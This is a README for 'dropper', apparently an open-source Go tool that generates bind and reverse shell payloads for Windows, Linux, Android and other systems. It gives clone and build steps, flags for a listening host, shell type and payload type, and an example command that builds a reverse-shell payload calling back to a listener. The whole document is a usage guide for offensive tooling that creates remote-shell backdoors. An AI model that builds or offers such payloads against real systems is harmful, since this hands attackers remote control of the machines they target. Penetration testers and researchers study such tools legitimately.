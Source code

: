 Dropper

In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code>
<code>go run dropper.go</code>

+...|Choose an OS|...+

- windows
- linux
- freebsd
- nacl
- netbsd
- openbsd
- plan9
- solaris
- dragonfly
- darwin
- android

>_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code>
<code>./dropper -h</code>
Usage of ./dropper:
	-a string
		Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
	-l string
		Listening host: <listening ip:port>
	-o string
		Output filename: <anything goes>
	-p string
		Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
	-s string
		Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh
	-t string
		Payload type: bind/reverse

 Example:
 <code>./dropper -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code>
 
